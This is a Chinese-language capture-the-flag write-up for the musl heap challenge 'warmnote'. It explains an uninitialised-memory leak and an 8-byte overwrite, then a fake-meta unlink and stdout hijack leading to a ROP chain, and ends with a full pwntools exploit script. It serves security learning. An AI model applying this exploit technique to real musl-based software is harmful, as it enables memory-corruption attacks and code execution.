




# musl 入门

## warmnote

### 漏洞点

本题目通过管理块来管理note

```c
00000000 note            struc ; (sizeof=0x2C, mappedto_6)
00000000 title           db 32 dup(?)
00000020 note            dq ?                    ; offset
00000028 size            dd ?
0000002C note            ends
```

其中，如下的代码中，在没有使用 show 的时候，add堆管理块都会使用 malloc ，它不会清空数据

```c
printf("Size: ");
size = get_num();
if ( size > 8 && size <= 0x2000 )
{
    if ( show_flag )
    	ptr_list[idx] = (note *)calloc(0x30uLL, 1uLL);
    else
    	ptr_list[idx] = (note *)malloc(0x30uLL);
    if ( !ptr_list[idx] )
    {
    	perror("alloc");
    	exit(-1);
    }
    printf("Title: ");
    your_read(ptr_list[idx]->title, 0x10LL);
    ptr = ptr_list[idx];
    ptr->note = calloc(size, 1uLL);
    if ( !ptr_list[idx]->note )
    {
    	perror("calloc");
    	exit(-1);
    }
    ptr_list[idx]->size = size;
    printf("Note: ");
    your_read((_BYTE *)ptr_list[idx]->note, size);
    puts("OK!");
}
```

下面的 free 只清空了管理块，而没有清空数据块

```c
free(ptr_list[idx]->note);
ptr_list[idx]->note = 0LL;
ptr_list[idx]->size = 0;
memset(ptr_list[idx], 0, 0x20uLL);
free(ptr_list[idx]);
ptr_list[idx] = 0LL;
puts("OK!");
```

那么如果我们 free 掉的一个写满的数据块，之后再申请回来，title就会完全占满 0x20个字节甚至更多，此时不读入 `\x00` ，note 的指针便会跟随 title 打印出来

另外，在仅存在一次的 edit 里，注意这里的置零的操作，是当成了 `_QWORD`  4 字也就是 8 字节来解引用，也就是说，可以把偏移 size 处的 8 字节全部清空

```c
if ( idx >= 0 && idx <= 3 && ptr_list[idx] && ptr_list[idx]->note && ptr_list[idx]->size )
{
    printf("Note: ");
    your_read((_BYTE *)ptr_list[idx]->note, ptr_list[idx]->size);
    *(_QWORD *)((char *)ptr_list[idx]->note + ptr_list[idx]->size) = 0LL;
    puts("OK!");
}
```

这样就可以把 index 清 0 ，而前 8 个字节就成了 meta 指针

```c
 gadgets:
 0x7f0d63e025ae <longjmp+30>:    mov    rsp,QWORD PTR [rdi+0x30]
 0x7f0d63e025b2 <longjmp+34>:    jmp    QWORD PTR [rdi+0x38]
```

### 漏洞利用

#### 泄露

如上面所说

free 掉的一个写满的数据块，之后再申请回来，title就会完全占满 0x20个字节甚至更多，此时不读入 `\x00` ，note 的指针便会跟随 title 打印出来，申请一个



查看 active 中的堆块，这里 0x7f 开头的都是 libc 附近的，我们可以申请 0xe0 大小的堆块来泄露它的地址



#### orw

这里涉及第二个漏洞，就是直接将 size 后置零的edit迷惑操作，既然可以将后面8字节置零，那么就可以将下一个堆块的 index 置零，这样如果 free 掉这个块，就会把 group 误以为是当前 chunk，那么在这里写入伪造的 meta 即可



另外伪造的 meta 那一页的前8字节要写成 secret ，secret 可以用后门泄露，如上图，再将 meta 的 next 和 prev 写成伪造的 file 地址和 __stdout_used ，相当于打 glibc 里的 iofile ，那么 free 该 chunk 的时候就会对伪造的 meta 执行 unlink 操作，攻击成功



之后是使用 gadget 将栈迁到我们 orw 的 rop 链上

```c
 gadgets:
 0x7f0d63e025ae <longjmp+30>:    mov    rsp,QWORD PTR [rdi+0x30]
 0x7f0d63e025b2 <longjmp+34>:    jmp    QWORD PTR [rdi+0x38]
```

至此 iofile 攻击成功，执行exit即可完成利用

```python
# -*- encoding: utf-8 -*- 
import os 
from pwn import * 
binary = './warmnote'
os.system('chmod +x %s'%binary)
context.update( os = 'linux', arch = 'amd64',timeout = 1)
context.binary = binary
context.log_level = 'debug'
elf = ELF(binary)
libc = elf.libc
DEBUG = 1
if DEBUG:
    libc = elf.libc
    p = process(binary)
else:
    host = ''
    port = ''
    p = remote(host,port)

l64 = lambda            : ras(u64(p.recvuntil('\x7f')[-6:].ljust(8,'\x00')))
l32 = lambda            : ras(u32(p.recvuntil('\xf7')[-4:].ljust(4,'\x00')))
uu64= lambda a = 6      : ras(u64(p.recv(a).ljust(8,'\x00')))
uu32= lambda a = 4      : ras(u32(p.recv(a).ljust(4,'\x00')))
rint= lambda x = 12     : ras(int( p.recv(x) , 16))
sla = lambda a,b        : p.sendlineafter(str(a),str(b))
sa  = lambda a,b        : p.sendafter(str(a),str(b))
lg  = lambda name,data  : p.success(name + ': \033[1;36m 0x%x \033[0m' % data)
se  = lambda payload    : p.send(payload)
rl  = lambda            : p.recv()
sl  = lambda payload    : p.sendline(payload)
ru  = lambda a          : p.recvuntil(str(a))

def ras( data ):
    lg('leak' , data)
    return data

def dbg( b = null):
    if (b == null):
        gdb.attach(p)
        pause()
    else:
        gdb.attach(p,'b %s'%b)

def cmd(num):
    sla('>>',num)

def add(size , text = 'a\n' , data = 'a\n'):
    cmd(1)
    sla('Size: ' , size)
    sa('Title: ' , text)
    sa('Note: ' , data)

def edit(idx , text):
    cmd(4)
    sla('Index: ' , idx)
    sa('Note: ' , text)

def show(idx ):
    cmd(2)
    sla('Index: ' , idx)

def delete(idx ):
    cmd(3)
    sla('Index: ' , idx)

def backdoor(addr):
    cmd(666)
    sla('[IN]: ' , addr)

def attack():
    
    for i in range(3):
        add(0x30,'a'*0x10,'a'*0x30)
    
    delete(0)
    delete(1)
    add(0x30,'a'*0x10)
    add(0xe0,'a'*0x10)
    show(1)

    libc.address =  l64() - 0xb7e50
    libc_base = libc.address
    __malloc_context = libc_base + 0xb4ac0
    __stdout_used = libc_base + 0xb43b0
    magic_gadget = libc_base + 0x7b1f5
    mem_addr = libc_base + 0xb7cd0

    pointer_addr = libc_base - 0x6fe0
    fake_meta_addr = pointer_addr + 0x1000 - 0x18
    flag_addr = pointer_addr
    fake_stdout_used = pointer_addr + 0x30
    rop_addr = pointer_addr + 0xe0

    ret = libc.search(asm("pop rdi;ret")).next() + 1

    rop = ROP(libc)
    rop.open(flag_addr,0)
    rop.read(3,flag_addr,0x30)
    rop.write(1,flag_addr,0x30)

    backdoor(__malloc_context)

    ru('[OUT]: ')
    secret = uu64(8)

    delete(0)
    delete(1)
    add(0x38)
    add(0x38)

    payload = 'a'*0x30 + p64(fake_meta_addr)

    edit(1 , payload)
    # dbg()

    fake_meta = p64(secret)+p64(fake_stdout_used ) + p64(__stdout_used)+p64(mem_addr)+p32(0x7e)+p32(0)
    freeable = 1 
    maplen = 1  
    sizeclass = 4  
    last_idx = 6
    last_value = last_idx | (freeable << 5) | (sizeclass << 6) | (maplen << 12)
    fake_meta += p64(last_value) + p64(0)

    payload = './flag'.ljust(0x30,'\x00')
    payload += '\x00'*0x30 + p64(rop_addr) + p64(ret) + p64(0)+p64(magic_gadget)
    payload = payload.ljust(0x100-0x20,'\x00')
    payload += rop.chain()
    payload = payload.ljust(0x1000-0x20,'\x00') 
    payload += fake_meta

    add(0x2000 , data = payload + '\n')

    lg('fake_stdout_used',fake_stdout_used)
    lg('__stdout_used',__stdout_used)
    delete(0)
    dbg()

    # exit -> __stdio_exit_needed -> close_file -> gadgets -> ropchain

    cmd(5)
    # dbg()
    
    p.interactive()

attack()

'''
@File    :   warmnote.py
@Time    :   2022/08/23 10:53:22
@Author  :   Niyah 
'''
```

